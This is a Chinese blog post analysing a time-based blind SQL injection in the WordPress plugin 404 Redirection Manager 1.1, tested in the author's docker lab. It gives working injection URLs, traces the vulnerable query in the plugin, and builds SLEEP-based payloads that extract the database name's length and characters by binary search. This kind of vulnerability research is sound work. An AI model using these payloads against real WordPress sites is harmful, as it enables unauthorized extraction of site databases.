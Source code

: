 ```yaml
---
layout: post
title: WordPress插件:404 Redirection Manager 1.1 SQL注入
categories: [漏洞]
tags: [WordPress,SQL Injection]
fullview: false
comments: true
---
```

发现这个问题的经过是这样的，原本想着上午逛逛exploit db 看看有没有什么漏洞可以自己搭环境可以搞一搞试试的，逛了一圈发现WordPress的404 Redirection Manager 1.0插件有个注入，提交的时间已经过去很多天了。本着观摩一下poc的心态点开看了看，发现WordPress的插件库里依旧还有这款插件，于是乎下载下来，用docker搭建了一个环境。【docker真好用...

下载下来才发现，这个插件已经更新到了1.1版本，就是在这个漏洞提交后不几天更新的，心一下子就凉了一半，心想着这么快就修了。但是好奇心驱使我还是把环境搭好了，用1.0版本的poc尝试了一下，发现依旧有用，虚惊一场，总之先搞了再说。

首先说下搭建的测试环境:

服务器：Apache
数据库类型：MySQL
数据库版本：5.7.15 
数据库客户端版本：libmysql - 5.5.52
PHP扩展:mysqli 
PHP版本：5.6.26-0+deb8u1
phpMyAdmin版本信息：4.4.14
WordPress版本：4.3.6

先做准备工作，在docker上部署的这个WordPress默认的链接形式是这样的：

<code>http://monburan-wordpress-test.daoapp.io/2016/12/22/sample-post/</code>

这里要将WordPress的链接设置成默认的，像这样：

<code>http://monburan-wordpress-test.daoapp.io/?p=123</code>

首先用1.0版本的poc测试一下：

<code>http://monburan-wordpress-test.daoapp.io/?p=1') AND (SELECT * FROM (SELECT(SLEEP(5-(IF('a'='a',0,5)))))abc) AND ('SQL'='SQL</code>

‘字面上’的注入很好理解，利用<code>sleep()</code>进行延时注入，当<code>'a'='a'</code>结果为<code>True</code>，则取0，<code>5-0=5</code>，执行<code>sleep(5)</code>。

为了更好的分析这个漏洞产生的过程，我插入了一条可以触发数据库错误的语句<code>') AND (SELECT * FROM (SELECT(SLEEP(5-(IF('a'='a',0,5)))))abc) AND ('SQL'='SQL'</code>(这里多了一个<code>'</code>),借助后台日志，我尝试着找到了这段注入执行的语句。

<code>
[Thu Dec 22 06:55:20.702722 2016] [:error] [pid 187] [client 10.10.79.136:43543] WordPress\xe6\x95\xb0\xe6\x8d\xae\xe5\xba\x93\xe6\x9f\xa5\xe8\xaf\xa2 select * from wp_WP_SEO_Redirection where enabled=1 and cat='link' and blog='1' and regex<>'' and ('/?p=1') AND (SELECT * FROM (SELECT(SLEEP(5-(IF('a'='a',0,5)))))abc) AND ('SQL'='SQL'' regexp regex or '/?p=1') AND (SELECT * FROM (SELECT(SLEEP(5-(IF('a'='a',0,5)))))abc) AND ('SQL'='SQL'/' regexp regex ) order by LENGTH(regex) desc \xe6\x97\xb6\xe5\x8f\x91\xe7\x94\x9fYou have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '?p=1') AND (SELECT * FROM (SELECT(SLEEP(5-(IF('a'='a',0,5)))))abc) AND ('SQL'' at line 1\xe9\x94\x99\xe8\xaf\xaf\xef\xbc\x8c\xe8\xbf\x99\xe6\x98\xaf\xe7\x94\xb1require('wp-blog-header.php'), wp, WP->main, do_action_ref_array, call_user_func_array, SR_redirect_manager::redirect\xe6\x9f\xa5\xe8\xaf\xa2\xe7\x9a\x84\xe3\x80\x82
</code>

执行的语句是这样的：

<code>select * from $table_name where enabled=1 and cat='link' and blog='" . get_current_blog_id() . "' and regex<>'' and $permalink_regex_options order by LENGTH(regex) desc </code>

<code>$permalink_regex_options</code>指向了<code>('$permalink' regexp regex or '$permalink_alternative'  regexp regex )</code>。

<code>$permalink</code> 和 <code>$permalink_alternative</code> 则分别指向了 <code>get_permalink()</code>，<code>get_alternative_permalink()</code>这两个获取固定链接的函数。

综上，可以整理出完整在数据库中执行的语句：

<code>
select * from wp_WP_SEO_Redirection where enabled=1 and cat='link' and blog='1' and regex<>'' and ('/?p=1') AND (SELECT * FROM (SELECT(SLEEP(5-(IF('a'='a',0,5)))))abc) AND ('SQL'='SQL' regexp regex or '/?p=1') AND (SELECT * FROM (SELECT(SLEEP(5-(IF('a'='a',0,5)))))abc) AND ('SQL'='SQL' regexp regex ) order by LENGTH(regex) desc
</code>

可以发现，这里<code>sleep</code>执行了两次，执行的时间应该在10秒以上。跑一下，成功了，时间也没问题。
![pic]()

这样只算是验证了这个漏洞，那看看如何再将这个poc更加深层次的利用。

在拿到目标数据库名字之前，需要知道这个数据库名多长，MySQL数据库的名字最长为64。

构造下面的注入语句：

<code>')
AND (SELECT * FROM (SELECT(SLEEP(5-(IF(LENGTH(database())>32,0,5)))))abc) AND ('SQL'='SQL</code>

这里使用二分法来解决问题，每次将数字减半。就上面的语句来说，如果回显时间大于10则认定数据库长度在64和32之间，否则就取16和32这个区间，以此类推，即可推导出数据库名的长度。

接下来就是爆库名了，通常数据库的命名都是由字母与下划线组成，这样的话可以用和上面相似的思路去爆破。
大小写和下划线的ascii码在64和123区间内，取中间值然后再逐个判断。

<code>')
AND (SELECT * FROM (SELECT(SLEEP(5-(IF(ascii(substr((select database()),X,1))>Y,0,5)))))abc) AND ('SQL'='SQL</code>

这里的X就是字母的位数，Y则是字母的ascii码，每次判断成功则X+1。












